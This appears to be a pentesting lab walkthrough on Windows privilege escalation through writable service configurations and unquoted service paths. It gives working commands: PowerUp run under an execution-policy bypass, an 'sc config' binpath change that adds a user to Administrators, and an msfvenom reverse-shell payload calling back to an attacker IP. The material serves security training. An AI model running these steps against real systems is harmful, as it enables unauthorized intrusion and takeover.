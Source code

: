 # 🛀 Service Permissions (Paths)

### Definitions

* **Service Path**: When Windows starts up or runs certain programs, it often uses "services" to do so. Each service has a specific path that tells Windows where to find the program it needs to run.
* **Quoted vs. Unquoted**: If the service path is "quoted" (enclosed in quotation marks), it tells Windows exactly where to find the program, even if there are spaces in the path. For example: `"C:\Program Files\My Service\service.exe"`. If the service path is "unquoted" (not enclosed in quotation marks), Windows might get confused about where the program is located if there are spaces in the path. For example: `C:\Program Files\My Service\service.exe`.

### Escalation via Binary Paths <a href="#lecture_heading" id="lecture_heading"></a>

first open this file in a cmd and type:

<figure><img src="../../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

1. `powershell -ep bypass`: This command starts a PowerShell session with the execution policy set to bypass. The `-ep` parameter stands for "ExecutionPolicy" and allows you to specify the execution policy for the PowerShell session. Setting it to "bypass" allows scripts to run without any restrictions. This is often used when running scripts that may be blocked by more restrictive execution policies.
2. `. .\PowerUp.ps1`: This command executes a PowerShell script named "PowerUp.ps1" located in the current directory. The `.\` prefix specifies the current directory, and the `.` followed by a space before the script filename indicates that the script should be executed in the current session (rather than in a new session). This is known as "dot-sourcing" a script, which means the script's contents are executed within the current scope rather than in a separate scope.
3. `Invoke-AllChecks`: This command invokes a function or cmdlet named "Invoke-AllChecks". This command is likely a part of the "PowerUp.ps1" script that was dot-sourced in the previous step. The purpose of this command is to trigger the execution of a series of checks or tests within the script. These checks could be related to system configuration, security vulnerabilities, or other aspects of the system that the script is designed to assess.

This is very automatic, in a more manual way, you can cd to this directory:

```
cd \Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

1. **accesschk64.exe**: This is an executable file, specifically for 64-bit Windows systems, that is part of the Sysinternals suite of tools developed by Microsoft. The `accesschk` tool is used to view the effective permissions for files, directories, registry keys, or other securable objects in Windows. In this case, `accesschk64.exe` specifically refers to the 64-bit version of the `accesschk` tool.
2. **-uwcv**: These are command-line options or switches that modify the behavior of the `accesschk64.exe` tool. Here's what each of them does:
   * `-u`: Specifies that the output should display user account names associated with the permissions but no errors, just positive finds.
   * `-w`: Specifies that the output should display only objects for which the specified user has write access.
   * `-c`: Specifies that the output should include containers, such as directories or registry keys, in addition to objects directly specified.
   * `-v`: Specifies that the output should be verbose, providing additional information about the permissions.
3. **Everyone**: This is a placeholder representing the user or group whose permissions are being checked. In this case, it refers to the "Everyone" group, which includes all user accounts, even those without explicit permission.
4. **\***: This wildcard character is used to specify the resource or object for which permissions are being checked. When used with `accesschk`, it typically means to check permissions for all objects that match the specified criteria. In this context, `*` could refer to all files, directories, registry keys, or other securable objects in the system.

<figure><img src="../../../../.gitbook/assets/image (616).png" alt=""><figcaption><p>Manual method</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (617).png" alt=""><figcaption><p>Automatic method</p></figcaption></figure>

We can also see that we can restart the service, very important! We could add something malicious and then restart it to gain more privileges, for example.

Now we're goinf to run access check on the service itself to try and get more informations about what's happening

```
accesschk64.exe -wuvc daclsvc
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (3).png" alt=""><figcaption></figcaption></figure>

we got read write for everyone as we can see

since we are part of the `everyone` groupe; we put it in our previous command, but we could've put in any group. Good thing to note is the `change_config` service that we can modify&#x20;

```
sc qc daclsvc
```

1. **sc**: This is the Service Control command-line utility in Windows. It allows you to communicate with the Service Control Manager and services.
2. **qc**: This is an abbreviation for "queryconfig". It instructs `sc` to display the configuration information for the specified service.
3. **daclsvc**: This is the name of the service for which you want to query the configuration information. In this case, it refers to a service named "daclsvc". Services in Windows are background processes that can be automatically started when the system boots or on demand.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (5).png" alt=""><figcaption></figcaption></figure>

We can see the binary path name, but since we have change\_config enabled we can modify this

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

and you can see that if we start daclsvc, we can see some changes:

```
net localgroup administrators
sc start daclsvc
net localgroup administrators 
```

<figure><img src="../../../../.gitbook/assets/2024-03-19_14-49.png" alt=""><figcaption></figcaption></figure>

So we're now in the Administrators group

### &#x20; Escalation via Unquoted Service Paths <a href="#lecture_heading" id="lecture_heading"></a>

<figure><img src="../../../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

An attacker can exploit an unquoted service path by creating a malicious program with a name that Windows might mistakenly run instead of the intended service. For example, if the path is unquoted, Windows might interpret `C:\Program Files\My Service\service.exe` as trying to run a program at `C:\Program.exe` or `C:\Program Files\My.exe` instead of the correct `service.exe`.

So after running PowerUp and starting the InvokeAllchecks command, we search for the unquoted path section:

<figure><img src="../../../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

So we can see the service _**Unquotedsvc**_ that has an unquoted service path with many spaces.

Now we are going to look at the service more in depth with the Registry Editor (regedit). It provides a tree structure that users can navigate to find specific keys and values. These keys and values are organized in a manner similar to folders and files on a hard drive.

It's good to know that the Windows Registry is a hierarchical database that stores low-level settings for the operating system and for applications that opt to use the registry.

The registry contains configuration settings for the operating system, hardware devices, user preferences, and installed software. Editing the registry can change how Windows or certain applications behave.

So let's look for unquotedsvc in the registry editor:

<figure><img src="../../../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

So what this means is, when the unquotedsvc service will start, it will load all those file from start to bottom

What could happen here would be that Windows can misinterpret the path and try to execute a different executable than the intended one. Here are the possible interpretations:

* `C:\Program.exe`
* `C:\Program Files\My.exe`
* `C:\Program Files\My Service\service.exe` (the intended executable)

So now we are going to craft our payload, send it to the target and execute it:

craft the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.54.172 LPORT=5454 -f exe -o common.exe
```

host and transfer the payload:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And of course we are going to save it in the unquoted service path:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after launching our netcat listener on the port we listed on our msfconsole payload, we're going to restart the unquotedsvc service and look what happens:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we got our shell!!

